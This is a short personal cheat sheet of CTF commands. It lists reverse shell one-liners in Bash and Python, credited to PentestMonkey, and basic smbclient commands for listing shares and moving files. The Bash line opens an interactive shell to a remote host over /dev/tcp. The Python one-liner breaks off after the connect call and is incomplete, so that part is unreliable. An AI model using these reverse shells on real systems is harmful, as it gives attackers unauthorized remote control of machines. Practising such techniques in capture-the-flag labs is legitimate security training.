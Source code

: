 # My Personal list of CTF commands

## Reverse Shell Cheat Sheet

[PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Python

```python
python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("10.0.0.1", 1234))
```

## SMBClient

List  
`smbclient -l <IPAddress>`  

Connect/Shell

```bash
smbclient -U username //ip/share
    * ls: List files and directories
    * cd directory: Change to a specified directory
    * get filename: Retrieve a file
    * mget file1 file2: Retrieve multiple files
    * put filename: Upload a file
    * mput file1 file2: Upload multiple files
    * mkdir directory: Make a directory
    * more filename: Examine the contents of a text file
    * tar c all.tar: Retrieve all of the files in the current share directory and subdirectories into a local tar file called all.tar
    * exit: Close the session  
```

